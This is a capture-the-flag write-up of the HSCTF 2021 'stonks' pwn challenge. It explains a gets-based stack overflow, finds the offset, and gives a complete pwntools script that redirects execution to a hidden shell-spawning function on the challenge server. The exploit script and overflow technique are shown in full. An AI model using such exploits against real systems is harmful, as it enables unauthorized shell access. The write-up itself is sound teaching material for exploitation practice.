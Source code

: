 ```yaml
---
layout: load_md
title: The White Circle | Hsctf 2021 | stonks Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Hsctf 2021
parent: hsctf_2021
category: pwn
challenge: stonks
tags: "pwn, taz, twh, python"
date: 2021-06-20T00:00:00+00:00
last_update: 2021-06-20T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Hsctf 2021</h1>

## stonks
> Solved By : Taz and thewhiteh4t

![](https://i.imgur.com/Xthi7zA.png)

* after disassembling :

![](https://i.imgur.com/sUMBjXD.png)

* vuln function disassembled :

![](https://i.imgur.com/u5piK7j.png)

* gets is used, lets calculate the offset at which it crashes :

```python
from pwn import *

p = process("./chal")
p.sendline(cyclic(200, n=8)) # n -> architecture | 8 -> 64bit
p.wait()

core = p.corefile
offset = cyclic_find(core.read(core.rsp, 8), n=8)
print(offset)
```

OUTPUT :

![](https://i.imgur.com/QLOSyKX.png)

* offset is 40

* finding all functions :

```
info functions
```

![](https://i.imgur.com/0WKx65a.png)

* when we checked `ai_debug` we found that it has a system call!

![](https://i.imgur.com/ONyEGVn.png)

* then we checked what its doing :

```
b main
run
jump ai_debug
```

OUTPUT :

![](https://i.imgur.com/PIRlX9z.png)

* it is executing `/usr/bin/dash` so we can get a shell if we can call ai_debug function

* Address of ai_debug :

![](https://i.imgur.com/GNc8x6K.png)

Exploit :

```python
#!/usr/bin/python3

from pwn import *

host = 'stonks.hsc.tf'
port = 1337
offset = 40
addr = 0x401258
ret = 0x4012f3

junk = b'A' * offset
le_num = p64(addr)
le_ret = p64(ret)
buffer = junk + le_ret + le_num

conn = remote(host, port)
conn.recvuntil('symbol:')
conn.sendline(buffer)
conn.interactive()
```

* Return address has been added because there is a stack alignment issue caused by LIBC present in Ubuntu i.e. the container running on the target

* Exploit was working locally but not remotely so we found this reddit thread

* https://www.reddit.com/r/securityCTF/comments/nbb5z2/buffer_overflow_works_fine_locally_but_not/

* Thanks to [Andr3](https://github.com/AndreaCarosi-7) and hiatus!

OUTPUT :

![](https://i.imgur.com/FN6LiSU.png)